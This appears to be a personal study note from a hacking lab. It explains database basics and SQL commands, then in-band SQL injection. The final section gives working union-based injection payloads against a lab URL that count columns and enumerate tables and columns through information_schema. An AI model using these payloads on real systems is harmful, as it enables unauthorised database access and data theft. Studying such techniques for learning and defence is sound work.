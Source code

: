 Attack on a web application database server that causes malicious queries to be executed.

A Database is a way of electronically **storing collections of data in an organised manner**, a database is controlled by a **DBMS**, which is an acronym for **Database Management System**.

DBMS fall into two camps, **Relational and Non-Rational**

![[Pasted image 20240503235128.png]]

**Tables** are made up of columns and rows, with each cell having the actual data, each column, better referred to as a **field** has a unique name per table.

When creating a column, you also set the type of data it will contain, integers, strings or dates.

Setting the data type also ensures that incorrect infromation **isn't stored**.

A **key** field has to be **unique for every row of data**.

A **relational database** stores information in tables, and often, the tables share information between them, the tables will often contain a column t hat has a **unique ID(primary key)**, which will then b e used in other tables to reference it.

**Non-relational databases**, sometimes called **NoSQL**, are any sort of database taht don't use tables, columns and rows to store data, MongoDB, Cassandra...

### SQL Commands

**SELECT**
Retrieves data from the database

```sql
SELECT * from users;
```

`SELECT` tells the database we want to retrieve some data, `*` tells the database we want to receive back all columns from the table(id, username, password)

```sql
SELECT username, password from users;
```

This will only return username and password.

```SQL
SELECT * from users LIMIT 1;
```

`LIMIT 1` forces the database to return only one row of data.

```SQL
SELECT * from users where username='admin';
```

This is how we can finely pick out the exact data we require by returning data that matches our specific clauses

```sql
SELECT * from users where username='admin' or username='jon';
```

This will only return the rows where the usernaem is either equal to **admin** or **jon**

```SQL
SELECT * from users where username='admin' and password='p4ssword';
```

This will only return the rows where the username is either equal to **admin** and the password is equal to **p4ssword**

Using the `like` clause allows you to **specify data** that isn't an exact match but insteat either starts, contains or ends with certain characters by choosing where to place the wildcard character respresented by a `%`

```SQL
SELECT * from users where username like 'a%';
```

This returns any rows with a username bewginning with a letter a

```SQL
SELECT * from users where username like '%n';
```

This returns any rows with a username ending with the letter n

```sql
SELECT * from users where username like '%mi%';
```

Returns any rows with a username containing the characters **mi** within them

### UNION

The `UNION` statement combines the results of two or more `SELECT` statements to retrieve data from either a single or multiple tables.

The rules to this query are that the `UNION` statement must retrieve t he same number of columns in each `SELECT` statement, the columns have to be of similar data type, and the column order has to be the same.

```SQL
SELECT name, address, city, postcode from customers UNION SELECT company, address, city, postcode from suppliers;
```

### INSERT

Inserts a new row of data into the table

```SQL
INSERT into users (username, password) values ('bob', 'password123');
```

### UPDATE

Updates one or more rows of data within a table.

```SQL
UPDATE users SET username='root', password='pass123' where username='admin';
```

### DELETE

Straightforward, this will remove the entire row where **username = 'martin'**
```SQL
DELETE from users where username='martin';
```

```sql
DELETE from users
```

### In-Band SQL Injection

Refers to the same method of communication being used to exploit the vulnerability and also receive the results.

**Error-Based SQL Injection**
Most useful for easily obtaining information about the database structure, as error messages from the database are printed directly into the browser screen, user to **enumerate a whole database**

**Union-Based SQL Injection**
Utilises the `UNION` operator alongside a `SELECT` statement to return additional results to the page, most common way of extracting large amounts of data via an SQL Injection Vulnerability.


### Practical

The key to discovering err-rbased SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced.

For example, typing a `'` after the url

```
https://website.thm/article?id=1'
```

However if we try

``` 
https://website.thm/article?id=1 UNION SELECT 1
// SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns

https://website.thm/article?id=1 UNION SELECT 1, 2
// SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns

https://website.thm/article?id=1 UNION SELECT 1, 2, 3
// Expected behavior
```

The article is displayed because it takes the first resulted result somewhere in the website's code and shows that, to get around that, we need the first query to produce no results.

```
https://website.thm/article?id=0 UNION SELECT 1,2,3
```

Our next query will gather a list of tables that are in this database

```
https://website.thm/article?id=0 UNION SELECT 1,2, database()
```

The database is **sqli_one**

``` SQL
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

The `group_concat()` gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas.

`information_schema` database, every user has access to this, and it contains information about **all the databases and tables** the user has access to.

We're interested in listing all the tables in the **sqli_one** database, which is article and staff_users

```SQL
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

